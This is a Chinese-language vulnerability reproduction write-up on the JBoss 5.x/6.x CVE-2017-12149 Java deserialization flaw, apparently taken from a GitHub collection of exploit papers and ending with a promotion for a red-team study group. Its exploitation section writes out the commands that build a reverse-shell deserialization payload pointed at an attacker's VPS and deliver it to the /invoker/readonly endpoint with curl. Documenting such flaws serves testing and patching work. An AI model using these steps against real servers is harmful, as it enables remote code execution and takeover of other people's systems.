

成功反弹 shell

JBoss 5.x/6.x CVE-2017-12149 反序列化漏洞  
漏洞描述

```
该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。
该漏洞出现在\*\*/invoker/readonly\*\*请求中，服务器将用户提交的POST内容进行了Java反序列化,导致传入的携带恶意代码的序列化数据执行。
```

影响版本  
JbossAS 5.x  
JbossAS 6.x

漏洞验证 POC  
http:// 目标: 8080/invoker/readonly 如果出现报 500 错误, 则说明目标机器可能存在此漏洞



漏洞利用  
首先从 http 响应头和 title 中一般情况下都能看到信息来确定目标 jboss 版本是否在此漏洞版本范围



现成工具



接下来借助 JavaDeserH2HC 来完成整个利用过程  
首先尝试直接反弹 shell, 利用 JavaDeserH2HC 创建好用于反弹 shell 的  
payload, 如下

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap vps的ip:端口 
然后尝试利用curl发送payload到目标机器上执行后，发现vps已成功接弹回的shell
curl http://www.target.net/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```





成功反弹 shell。

参考文献:  
https://blog.csdn.net/qq\_36119192/article/details/103899123  
https://www.freebuf.com/articles/web/240174.html

渗透测试 红队攻防 免杀 权限维持 等等技术 

及时分享最新漏洞复现以及 EXP 国内外最新技术分享!!!

进来一起学习吧


可以看看好兄弟

一个学习资料分享的星球  





---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
